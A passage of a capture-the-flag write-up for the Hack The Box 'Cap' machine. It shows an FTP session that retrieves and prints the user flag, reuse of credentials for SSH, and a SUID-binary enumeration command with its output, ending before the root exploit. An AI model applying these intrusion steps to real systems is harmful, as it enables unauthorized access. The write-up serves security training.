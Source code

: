 ```console
-rw-rw-r--    1 1001     1001       102798 Jul 17 10:28 linEnum.txt
-rw-rw-r--    1 1001     1001       105395 Jul 17 10:28 linpeas.txt
-rwxr-xr-x    1 1001     1001       325865 Mar 10 13:58 linpeasnew.sh
-rwxr-xr-x    1 1001     1001        37195 Jul 07  2020 linuxprivchecker.py
-rw-rw-r--    1 1001     1001        10240 Jul 17 10:30 lpc.tar
-rw-rw-r--    1 1001     1001            0 Jul 17 10:30 lpc.txt
-rwxr-xr-x    1 1001     1001        37909 Jul 07  2020 lse.sh
-rw-rw-r--    1 1001     1001       136262 Jul 17 10:29 lse.txt
-rwxrwxr-x    1 1001     1001        46632 Jul 18 13:34 mm.sh
-rw-rw-r--    1 1001     1001       358400 Jul 17 10:30 privesc.tar
drwxr-xr-x    3 1001     1001         4096 Jul 17 10:27 snap
-rwsrwxrwx    1 1001     1001           10 Jul 17 11:08 test.sh
-r--------    1 1001     1001           33 Jul 17 10:01 user.txt
226 Directory send OK.
ftp> cat user.txt
?Invalid command
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (287.7372 kB/s)
ftp> exit
221 Goodbye.

┌──(kali㉿kali)-[~/HTB/Cap]
└─$ cat user.txt
fa4fb308e7486ab7ece2b4f2843c7480
```

## Root solution

The same credentials are also used for ssh.

After logging in through ssh I checked for SUID executables.

```console
nathan@cap:/$ find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
```